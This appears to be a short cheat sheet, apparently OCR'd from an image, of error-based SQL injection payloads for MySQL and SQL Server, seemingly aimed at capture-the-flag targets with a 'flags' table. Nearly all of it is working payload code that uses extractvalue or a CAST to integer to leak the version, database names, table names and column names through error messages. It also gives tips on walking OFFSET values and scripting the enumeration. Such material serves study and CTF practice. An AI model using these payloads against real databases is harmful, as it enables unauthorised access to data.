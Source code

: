 ```sql
select column_name, data_type from all_tab_columns where table_name = 'MENU';
```


### Error Base SQL Injection (SQL SERVER)

Errorbase
MySQL 

```sql
extractvalue('',concat('>',version()))
```

SQL Server 

```sql
cast(@@version as integer)
```

```sql
cast((SELECT name FROM sys.databases
WHERE database_id = 1;) as int)
```

```sql
cast((SELECT TOP 1 flag FROM App.dbo.flags;) as int);
```

```sql
CAST((SELECT name 
FROM app.sys.tables 
ORDER BY name
OFFSET 2 ROWS FETCH NEXT 1 ROWS ONLY) AS INT);
```

Tips:

    Keep incrementing the OFFSET to walk through the table names.

    Use a script if possible to automate it.

    Make note of each table name from the error message.

```sql
CAST((SELECT name FROM app.sys.tables ORDER BY name OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY) AS INT)
```


```sql
CAST((
  SELECT name 
  FROM app.sys.columns 
  WHERE object_id = OBJECT_ID('app.dbo.flags')
  ORDER BY name
  OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY
) AS INT)
```

```sql
CAST((SELECT name FROM target.sys.tables WHERE name LIKE '%flag%';) as int)
```
